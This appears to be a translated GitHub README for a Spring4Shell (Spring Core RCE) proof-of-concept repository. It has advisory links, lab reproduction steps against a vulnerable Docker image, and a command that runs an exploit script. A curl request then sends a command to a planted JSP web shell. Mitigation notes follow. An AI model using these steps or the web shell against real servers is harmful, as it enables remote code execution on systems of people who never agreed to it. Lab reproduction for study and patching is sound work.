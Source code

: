 # Information

https://spring.io/blog/2022/03/31/spring-framework-rce-early-announcement

https://www.rapid7.com/blog/post/2022/03/30/spring4shell-zero-day-vulnerability-in-spring-framework/?s=03

https://github.com/tweedge/springcore-0day-en

# How to reproduce
docker run -d -p 8082:8080 --name springrce -it vulfocus/spring-core-rce-2022-03-29

python3 ./exp.py --url http://192.168.0.11:8082

curl --output - "http://192.168.0.11:8082/tomcatwar.jsp?pwd=j&cmd=id"

![vulnerable code + poc](images/exploit.jpg)

# Mitigations
https://github.com/blindpirate/spring-rce-2022-03-hotfix (untested)

https://www.praetorian.com/blog/spring-core-jdk9-rce/

# Spring Core RCE

> After Spring Cloud, on 3.29, another major Spring vulnerability was reported online: Spring Core RCE

(Note from craig: Spring Cloud exploit here: https://github.com/hktalent/spring-spel-0day-poc)

## coded poc in circulation
** currently exp has been uploaded ``exp.py`` **
![circulating coded poc](images/poc.png)
![awkward situation](images/img_1.png)

## The official Spring patch is also in active production  
[Link to patches in production for Spring](https://github.com/spring-projects/spring-framework/commit/7f7fb58dd0dae86d22268a4b59ac7c72a6c22529)

## The vulnerability affects
1. jdk version 9 and above
2. using Spring Framework or derivative frameworks
## Vulnerability Fix Recommendations
Currently, Spring has not released a patch, so we recommend lowering the jdk version as a temporary solution.

Translated with www.DeepL.com/Translator (free version)
